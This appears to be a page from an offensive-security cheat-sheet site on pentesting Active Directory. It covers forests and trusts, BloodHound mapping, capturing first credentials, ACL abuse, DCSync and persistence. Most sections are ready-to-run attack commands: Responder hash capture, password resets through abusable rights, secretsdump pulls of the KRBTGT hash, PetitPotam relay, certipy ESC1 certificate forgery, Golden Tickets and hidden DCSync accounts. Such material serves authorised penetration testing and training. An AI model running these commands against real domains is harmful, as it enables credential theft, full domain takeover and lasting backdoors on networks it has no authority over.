

---
tags:
  - Network
  - Windows
---

# :material-sitemap: Active Directory

<span class="pill pill-hard">boss level</span> <span class="pill pill-info">windows</span>

AD is a graph of objects (users, groups, computers) and permissions. Pentesting it means finding a *path* of abusable relationships from what you control to Domain Admin. **BloodHound** turns that into a literal shortest-path query.

!!! abstract "TL;DR"
    Get a foothold credential → collect BloodHound → find the shortest path (ACL abuse, Kerberos, delegation, GPO) → walk it to DCSync → Golden Ticket for persistence.

## :material-file-tree: Forests, domains & trusts

Before you attack a path, know which **boundary** you are crossing. A domain is
an administrative unit; a **forest** is the security boundary. Domains inside one
forest trust each other automatically and transitively — domains in *different*
forests only trust each other if someone explicitly set it up.



*Two forests, each with child domains. Trusts inside a forest are automatic and
transitive; between forests they are explicit.*

The consequence that matters on an engagement: a user in one forest is **not**
automatically able to authenticate to machines in another, even where a
bidirectional trust exists between the two top-level domains. Reaching a
grandchild domain across a forest boundary usually needs its own direct trust —
so when a BloodHound path looks like it crosses forests, verify the trust exists
before you build a plan on it.

```powershell
# What trusts does this domain have, and which way do they point?
Get-DomainTrust                    # PowerView
nltest /domain_trusts /all_trusts
Get-ADTrust -Filter *              # RSAT
```

```bash
# From Linux
bloodhound-python -d target.local -u user -p pass -c All --zip   # collects trusts too
ldapsearch -x -H ldap://dc -b "CN=System,DC=target,DC=local" "(objectClass=trustedDomain)"
```

!!! loot "Trust direction is backwards from intuition"
    If domain A **trusts** domain B, then B's users can be granted access to A's
    resources — the arrow of trust points the opposite way to the arrow of
    access. Read every trust twice before deciding which side is the target.

## :material-map: Map the domain with BloodHound

```bash
# Remote collection (no agent on target)
bloodhound-python -u bob -p Pass -d corp.local -ns 10.10.10.5 -c All
nxc ldap DC01 -u bob -p Pass --bloodhound --collection All --dns-server 10.10.10.5
# Windows collector:  SharpHound.exe -c All
```

Load the ZIP into BloodHound and run the pre-built queries:

- **Shortest Paths to Domain Admins**
- **Find Principals with DCSync Rights**
- **Kerberoastable accounts**
- **Shortest path from Owned principals** (mark what you control first)

!!! tip "Mark owned nodes"
    Right-click every account/host you compromise → *Mark as Owned*. Then "Shortest path from Owned" shows your actual next move, not a theoretical one.

## :material-account-key: Getting the first credential

- **Password spray** a weak seasonal password across the user list ([SMB](smb.md)).
- **AS-REP roast** accounts without preauth ([Kerberos](kerberos.md)) — no creds needed.
- **LLMNR/NBT-NS poisoning** to capture NetNTLMv2 hashes:
  ```bash
  sudo responder -I eth0 -wv
  hashcat -m 5600 captured.txt rockyou.txt
  ```
- **GPP passwords** in SYSVOL (`Groups.xml` — AES key is public):
  ```bash
  nxc smb DC01 -u bob -p Pass -M gpp_password
  ```

## :material-relation-many-to-many: ACL abuse

<span class="pill pill-hard">the AD bread and butter</span>

BloodHound highlights dangerous rights you hold over other objects:

| Right over target | Abuse |
| --- | --- |
| `GenericAll` / `GenericWrite` | Reset password, set SPN (targeted Kerberoast), RBCD |
| `WriteDacl` | Grant yourself more rights, then abuse them |
| `WriteOwner` | Take ownership → grant yourself `GenericAll` |
| `ForceChangePassword` | Reset the target user's password |
| `AddMember` | Add yourself to a group (e.g., a privileged one) |
| `AllowedToDelegate` | Constrained delegation impersonation |

```bash
# Reset a password you have control over
net rpc password "victim" "NewPass123!" -U corp.local/bob%Pass -S DC01
bloodyAD -u bob -p Pass -d corp.local --host DC01 set password victim 'NewPass123!'

# Add yourself to a group
bloodyAD -u bob -p Pass -d corp.local --host DC01 add groupMember "Helpdesk" bob

# Targeted Kerberoast (GenericWrite → set SPN → roast → clear)
targetedKerberoast.py -u bob -p Pass -d corp.local
```

## :material-database-sync: DCSync — the endgame

With replication rights (`DS-Replication-Get-Changes` + `-All`, held by DAs and often granted via ACL abuse), pull every hash from the DC:

```bash
secretsdump.py corp.local/bob:Pass@10.10.10.5              # all creds
secretsdump.py corp.local/bob:Pass@10.10.10.5 -just-dc-user krbtgt   # just KRBTGT
nxc smb DC01 -u bob -p Pass --ntds                          # via NetExec
```

!!! loot "KRBTGT hash = the kingdom"
    DCSyncing `krbtgt` lets you forge **Golden Tickets** ([Kerberos](kerberos.md)) and own the domain until that account is rotated **twice**. Also grab the Administrator hash for immediate pass-the-hash.

## :material-file-cog: Other classic paths

=== "NTLM relay"

    Coerce auth (PetitPotam/printerbug) and relay it where signing is off:
    ```bash
    ntlmrelayx.py -t ldaps://DC01 --delegate-access   # set RBCD via relay
    petitpotam.py -u bob -p Pass ATTACKER DC01
    ```

=== "ADCS (Certified Pre-Owned)"

    Vulnerable certificate templates → auth as anyone.
    ```bash
    certipy find -u bob -p Pass -dc-ip 10.10.10.5 -vulnerable
    # ESC1: request a cert specifying an arbitrary SAN
    certipy req -u bob -p Pass -ca CORP-CA -template Vuln -upn administrator@corp.local
    certipy auth -pfx administrator.pfx        # -> TGT / NT hash
    ```

=== "GPO abuse"

    Edit-rights on a linked GPO → push a scheduled task / immediate task to all affected machines (SharpGPOAbuse).

## :material-anchor: Persistence

- **Golden/Silver/Diamond tickets** ([Kerberos](kerberos.md)).
- **DCShadow**, **AdminSDHolder** backdoor, **Skeleton Key**.
- Add a hidden account with DCSync rights via ACL.

!!! opsec "Everything above is monitored by mature SOCs"
    DCSync (4662), ticket anomalies (4769), ADCS misuse, and mass ACL changes are prime hunting ground for Defender for Identity / good detections. Time your actions and document them for the report.

## :material-powershell: ActiveDirectory PowerShell module (RSAT)

When you land on a domain-joined Windows host, the `ActiveDirectory` module is a first-class enum/abuse tool that lives off the land — no dropping binaries.

```powershell
Get-Module ; Import-Module ActiveDirectory        # load it
Get-Command -Module ActiveDirectory                # what's available
Get-Help New-ADUser                                # syntax for any cmd-let
```

```powershell
# --- Users ---
Get-ADUser -Identity amasters -Properties *                        # dump one user
New-ADUser -Name "first last" -AccountPassword (Read-Host -AsSecureString) -Enabled $true
Set-ADAccountPassword -Identity victim -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "NewP@ss!" -Force)
Set-ADUser -Identity victim -ChangePasswordAtLogon $true           # force reset at next logon
Unlock-ADAccount -Identity victim
Remove-ADUser -Identity victim

# --- Groups / OUs (privesc when you hold the rights) ---
Add-ADGroupMember -Identity "Helpdesk" -Members bob               # add yourself to a group
New-ADGroup -Name "analysts" -GroupScope Global -GroupCategory Security -Path "CN=Users,DC=corp,DC=local"
New-ADOrganizationalUnit -Name "IT" -Path "DC=corp,DC=local"

# --- Computers ---
Get-ADComputer -Identity DC01 -Properties * | select CN,CanonicalName,IPv4Address
Add-Computer -DomainName corp.local -Credential corp\bob_adm -Restart   # domain-join a host

# --- GPO (link an existing GPO to an OU) ---
Copy-GPO -SourceName "Baseline" -TargetName "Evil"
New-GPLink -Name "Evil" -Target "OU=Employees,DC=corp,DC=local" -LinkEnabled Yes
```

!!! tip "Enumerate first, no module needed"
    On a locked-down host without RSAT, the same queries work through `.NET` / ADSI or `Get-ADObject -LDAPFilter` — and remotely through [BloodHound](bloodhound.md) / `nxc ldap`. Reach for these cmd-lets when you already have a shell and want to *modify* objects (password resets, group adds, GPO links) after BloodHound shows you the path.

## :material-link-variant: Related

- Prereqs: [Recon](recon.md), [SMB](smb.md), [Kerberos](kerberos.md).
- Hybrid identity connects to [Azure](../cloud/azure.md) (Entra Connect).
- Post-DA host access → [Windows Privesc](../privesc/windows.md), [Persistence](../privesc/persistence.md), [Pivoting](../privesc/pivoting.md).
- Reference: [The Hacker Recipes – AD](https://www.thehacker.recipes/ad/), [HackTricks AD](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html).
